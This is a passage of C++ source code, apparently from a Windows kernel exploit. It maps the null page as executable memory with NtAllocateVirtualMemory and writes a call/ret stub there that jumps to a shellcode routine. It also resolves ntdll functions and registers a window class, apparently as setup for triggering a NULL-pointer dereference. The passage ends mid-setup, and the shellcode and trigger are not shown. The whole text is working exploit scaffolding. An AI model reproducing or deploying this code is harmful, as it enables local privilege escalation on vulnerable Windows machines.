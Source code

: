     void initShellcode()
    {
        PVOID Addr = (PVOID) 0x00001000;
        ULONG Size = 1024;
        ULONG Status;
        char *nulll = 0;
        int  *nu = (int *) 1;

        Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (Status)
        {
            std::cout << "Allocation of the null page fail" << std::endl;
            exit(0);
        }

        nulll[0] = 0xe8; // call
        nu[0] = ((int) shellcode) - 5; // relative addr
        nulll[5] = 0xc3; // ret
    }

    HINSTANCE init()
    {
        HINSTANCE hInst = GetModuleHandle (0);
        WNDCLASSEX wc;

        // we get the address of the NtAllocateVirtualMemory
        *(FARPROC *) &NtAllocateVirtualMemory = GetProcAddress(GetModuleHandle("NTDLL.DLL"),
            "NtAllocateVirtualMemory");
        *(FARPROC *) &NtFreeVirtualMemory = GetProcAddress(GetModuleHandle("NTDLL.DLL"),
            "NtFreeVirtualMemory");

        // we register some window class
        // we need to register for set the WndProc function
        wc.cbSize = sizeof (WNDCLASSEX);
        wc.style = 0;
        wc.lpfnWndProc = WndProc;
        wc.cbClsExtra = 0;
        wc.cbWndExtra = 0;
        wc.hInstance = hInst;
        wc.hIcon = LoadIcon(NULL, IDI_APPLICATION);
        wc.hCursor = LoadCursor(NULL, IDC_ARROW);
        wc.hbrBackground = (HBRUSH) (COLOR_WINDOW+1);
        wc.lpszMenuName = NULL;
        wc.lpszClassName = "MyWinClass";
        wc.hIconSm = LoadIcon(NULL, IDI_APPLICATION);

        if (!RegisterClassEx(&wc))
        {
            std::cout << "Window Registration Failed!" << std::endl;
            exit(0);
        }

        initShellcode();
